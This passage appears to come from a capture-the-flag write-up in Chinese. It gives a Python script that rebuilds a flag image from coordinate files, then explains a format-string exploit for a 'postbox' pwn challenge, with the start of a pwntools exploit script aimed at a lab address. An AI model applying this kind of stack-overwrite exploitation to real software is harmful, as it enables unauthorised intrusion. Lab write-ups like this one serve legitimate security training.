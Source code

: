 ```python
cy=[]
with open (r'b.txt','r') as f:
    dat=f.read().split()
    for p in dat:
        p=p.split(',')
        bx.append(float(p[0]))
        by.append(float(p[1]))
with open (r'c.txt','r') as f:
    dat=f.read().split()
    for p in dat:
        p=p.split(',')
        cx.append(float(p[0]))
        cy.append(float(p[1]))
ax=[]
ay=[]
for i in range(len(cx)):
    try:
        ax.append(int(2*bx[i]-cx[i]))
    except IndexError:
        print(i)
for i in range(len(cx)):
    ay.append(int(2*by[i]-cy[i]))
width=max(ax)-min(ax)+1
height=max(ay)-min(ay)+1
print(width)
print(height)
x0=min(ax)
y0=min(ay)
print(x0)
print(y0)
img=Image.new('RGB',(width,height))
for i in range(len(ax)):
    try:
        img.putpixel((ax[i]-x0,ay[i]-y0),(255,255,255))
    except IndexError:
        print((ax[i],ay[i]))
img.save('flag.png')
img.show()
```
![3-10](./3-10.png)
把之前b.txt单独画出来两条下划线的部分正好能对上去

## pwn
### 1.postbox
PostScript中有格式化字符串的机会，它和PostMessage的栈是平行的，因此可以在PostMessage中改出114514。一次机会不太够，第一次修改次数到3次，第二次泄露pie以及栈地址，第三次即可改到返回地址。（只改1字节也能大概率过）
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',11841)
#libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b printf')
#pause()
p.recvuntil(b'exit')
p.sendline(b'2')
p.recvuntil(b'contents:')
payload=b'a'*0x2fc+p32(114514)
```